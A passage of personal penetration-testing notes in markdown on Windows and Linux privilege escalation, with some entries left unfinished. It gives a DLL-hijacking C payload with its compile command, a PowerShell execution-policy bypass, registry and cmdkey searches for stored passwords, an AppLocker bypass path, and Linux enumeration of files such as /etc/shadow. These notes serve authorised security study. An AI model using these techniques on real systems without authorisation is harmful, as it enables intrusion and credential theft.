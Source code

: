     - `sc queryx type=service`: ???
- Powershell
    - `powershell.exe -nop -exec bypass`: launch powershell without execution policy restrictions
- DLL Hijacking: manipulating a DLL used by an aplication
    - Use `ProcMon` to find application with missing DLLs (with NAME NOT FOUND error). NOTE this type of research will need to be done on lab box sinceadmin is required to run `ProcMon`
    - Example minimal DLL file:
    ```c
    #include <windows.h>

    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```
    - Command to compile above dll with MinGW: `x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll`
    - `sc stop dllsvc & sc start dllsvc`: restart the dllsvc service
- Unquoted Service Path: when a service binary path is not "quoted"
    - this can be exploited if we can write to a folder on the path and are able to restart the service
- Token Impersonation ("Potato" series of series of exploits often refer to this kind of vuln)
- Files / Password
    - cleartext password files
    - config files
    - registry keys
        - `reg query HKLM / password /t REG_SZ /s`: search registries possibly containing passwords
        - `reg query HKCU / password /t REG_SZ /s`: search registries possibly containing passwords
    - `cmdkey /list`: list saved users' credentials
    - `unattend.xml`: used for setup by sysadmins, shoudl normally be deleted after setup

#### App Locker
App Locker is an application allowlisting technology introduced with Windows 7
- Bypass
    - The default `AppLocker` configuration allowes applications to be executed from `C:\Windows\System32\spool\drivers\color`


### Linux
#### Automated Tools
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [LSE (Linux Smart Enumeration)](https://github.com/diego-treitos/linux-smart-enumeration)
- [Linux PrivChecker](https://github.com/sleventyeleven/linuxprivchecker)
- [pspy](https://github.com/DominicBreuker/pspy/): monitor processes w/o root permissions

#### Manual Enum
1. General System Info / Environment
    - `id`: print real and effective user and group IDs
    - `hostname`: may reveal target system's role within the network
    - `uname -a`: additional system info such as hostname, kernel version, distribution
    - `/etc/issue`: contains OS info (can be easily changed though)
    - `/etc/passwd`: contains users
    - `/etc/shadow`: contains password hashes
    - `/etc/group`: contains user groups
    - `/etc/hosts`: hosts the user/system may communicate with
    - `/etc/hostname`: hostname of the host
    - `/etc/motd`: message of the day
    - `/etc/mysql/my.cnf`: mysql db config
    - `/proc/[0-9*/fd/[0-9]*`: first number is the PID, second is the file descriptor
    - `/proc/self/environ`:
    - `/proc/cmdline`: